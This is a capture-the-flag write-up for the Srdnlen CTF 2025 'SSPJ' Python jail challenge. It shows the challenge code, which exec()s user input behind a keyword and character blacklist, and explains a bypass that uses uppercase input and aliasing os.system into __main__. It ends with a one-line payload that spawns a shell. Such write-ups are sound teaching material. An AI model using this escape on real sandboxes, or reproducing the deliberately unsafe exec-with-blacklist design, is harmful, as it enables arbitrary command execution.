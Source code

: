 ```yaml
---
title: Srdnlen CTF 2025 - SSPJ
date: '2025-01-19'
lastmod: '2025-01-20T22:03:00+02:00'
categories:
- writeup
- srdnlen25
tags:
- misc
- pyjail
authors:
- salvatore.abello
---
```


# SSPJ

## Challenge

```py
import random

class SSPJ(object):
    def __init__(self):
        print("Welcome to the Super Secure Python Jail (SSPJ)!")
        print("You can run your code here, but be careful not to break the rules...")

        self.code = self.code_sanitizer(input("Enter your data: "))

        # I'm so confident in my SSPJ that 
        # I don't even need to delete any globals/builtins
        exec(self.code, globals())
        return

    def code_sanitizer(self, code: str) -> str:
        if not code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_chars = [
            # Why do you need these characters?
            "m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k"
        ]

        banned_digits = [
            # Why do you need these digits?
            "0", "7", "1"
        ]

        banned_symbols = [
            # You don't need these...
            ".", "(", "'", "=", "{", ":", "@", '"', "[", "`"
        ]

        banned_words = [
            # Oh no, you can't use these words!
            "globals", "breakpoint", "locals", "self", "system", "open",
            "eval", "import", "exec", "flag", "os", "subprocess", "input",
            "random", "builtins", "code_sanitizer"
        ]

        blacklist = banned_chars + banned_digits + banned_symbols + banned_words
        random.shuffle(blacklist)

        if any(map(lambda c: c in code, blacklist)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        return code.lower()

if __name__ == "__main__":
    SSPJ()
```

## Solve

This is a simple pyjail. We can't use `(`, `[`, `{` and also `.`, `=` so it's basically impossible to pollute attributes of `help`, `license`, etc.

Note that the builtins are not removed so we can import modules. Also, there's a character blacklist which is easily bypassable by sending the payload in uppercase.

The only thing that we can pollute is the `__main__` module. This is possible because when a module is imported, it can be accessed in the `__main__` one. So if you do something like:

```py
from os import system
```

then the `system` will be accessible from `__main__.system`. We can abuse this by renaming `system` to `__getattr__` so if we try to import something from the main module, it will call our function.

Final exploit:

```py
FROM OS IMPORT SYSTEM; FROM __MAIN__ IMPORT SH
```
